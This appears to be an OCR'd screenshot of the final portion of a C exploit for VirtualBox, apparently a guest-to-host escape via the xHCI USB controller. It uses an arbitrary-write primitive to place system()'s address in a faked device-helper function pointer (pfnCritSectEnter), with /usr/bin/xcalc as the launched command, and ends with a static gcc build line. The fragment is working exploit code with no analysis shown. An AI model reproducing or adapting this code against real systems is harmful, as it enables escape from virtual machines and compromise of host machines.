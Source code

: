 ```c
    *(uint64_t *)buf = system_addr;
    abwrite(buf, 0, 8);

    char *cmd = "/usr/bin/xcalc";
    memset(buf, 0, 0x100);
    memcpy(buf, cmd, strlen(cmd));
    //*(uint64_t *)(buf + 0x10) = rw_base-0x768; // fake pDevIns->CTX_SUFF(pHlp)->pfnPCIPhysWrite
    *(uint64_t *)(buf + 0x10) = rw_base-0x898; // fake pDevIns->CTX_SUFF(pHlp)->pfnCritSectEnter
    abwrite(buf, pDevIns-rw_base, 0x18);

    munmap(data_mem, 0x1000);
    munmap(xhci_mmio_mem, 0x10000);
    return 0;
}
// gcc -static -o exp ./vbox.exp.c
```


